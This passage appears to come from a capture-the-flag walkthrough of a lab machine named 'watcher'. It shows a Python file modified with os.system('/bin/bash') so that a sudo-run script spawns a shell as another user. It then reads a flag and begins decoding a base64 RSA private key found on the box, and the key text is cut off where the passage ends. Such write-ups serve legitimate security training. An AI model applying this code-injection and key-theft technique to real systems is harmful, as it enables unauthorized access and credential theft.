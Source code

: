 Let's modify the `cmd.py` file in the following way:

```python
import os

os.system('/bin/bash')

def get_command(num):
 if(num == "1"):
 return "ls -lah"
 if(num == "2"):
 return "id"
 if(num == "3"):
 return "cat /etc/passwd"
```

Now, let's run the script:

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1
```

We can see this:

![Pasted image 20250326162027.png](../../IMAGES/Pasted%20image%2020250326162027.png)

We got a shell as `will`, let's work our way into root from here:

```
will@watcher:/home/will$ cat flag_6.txt
FLAG{but_i_thought_my_script_was_secure}
```

No note in this point, let's use linpeas again:

![Pasted image 20250326162839.png](../../IMAGES/Pasted%20image%2020250326162839.png)

We can find something called `key.b64` if we decode the contents of it, we can see the following:

```
echo 'LS0tLS1CRUdJTiBSU0EgUFJJVkFURSBLRVktLS0tLQpNSUlFcEFJQkFBS0NBUUVBelBhUUZvbFFx
OGNIb205bXNzeVBaNTNhTHpCY1J5QncrcnlzSjNoMEpDeG5WK2FHCm9wWmRjUXowMVlPWWRqWUlh
WkVKbWRjUFZXUXAvTDB1YzV1M2lnb2lLMXVpWU1mdzg1ME43dDNPWC9lcmRLRjQKanFWdTNpWE45
ZG9CbXIzVHVVOVJKa1ZuRER1bzh5NER0SXVGQ2Y5MlpmRUFKR1VCMit2Rk9ON3E0S0pzSXhnQQpu
TThrajhOa0ZrRlBrMGQxSEtIMitwN1FQMkhHWnJmM0RORm1RN1R1amEzem5nYkVWTzdOWHgzVjNZ
T0Y5eTFYCmVGUHJ2dERRVjdCWWI2ZWdrbGFmczRtNFhlVU8vY3NNODRJNm5ZSFd6RUo1enBjU3Jw
bWtESHhDOHlIOW1JVnQKZFNlbGFiVzJmdUxBaTUxVVIvMndOcUwxM2h2R2dscGVQaEtRZ1FJREFR
QUJBb0lCQUhtZ1RyeXcyMmcwQVRuSQo5WjVnZVRDNW9VR2padjdtSjJVREZQMlBJd3hjTlM4YUl3
YlVSN3JRUDNGOFY3cStNWnZEYjNrVS80cGlsKy9jCnEzWDdENTBnaWtwRVpFVWVJTVBQalBjVU5H
VUthWG9hWDVuMlhhWUJ0UWlSUjZaMXd2QVNPMHVFbjdQSXEyY3oKQlF2Y1J5UTVyaDZzTnJOaUpR
cEdESkRFNTRoSWlnaWMvR3VjYnluZXpZeWE4cnJJc2RXTS8wU1VsOUprbkkwUQpUUU9pL1gyd2Z5
cnlKc20rdFljdlk0eWRoQ2hLKzBuVlRoZWNpVXJWL3drRnZPRGJHTVN1dWhjSFJLVEtjNkI2CjF3
c1VBODUrdnFORnJ4ekZZL3RXMTg4VzAwZ3k5dzUxYktTS0R4Ym90aTJnZGdtRm9scG5Gdyt0MFFS
QjVSQ0YKQWxRSjI4a0NnWUVBNmxyWTJ4eWVMaC9hT0J1OStTcDN1SmtuSWtPYnBJV0NkTGQxeFhO
```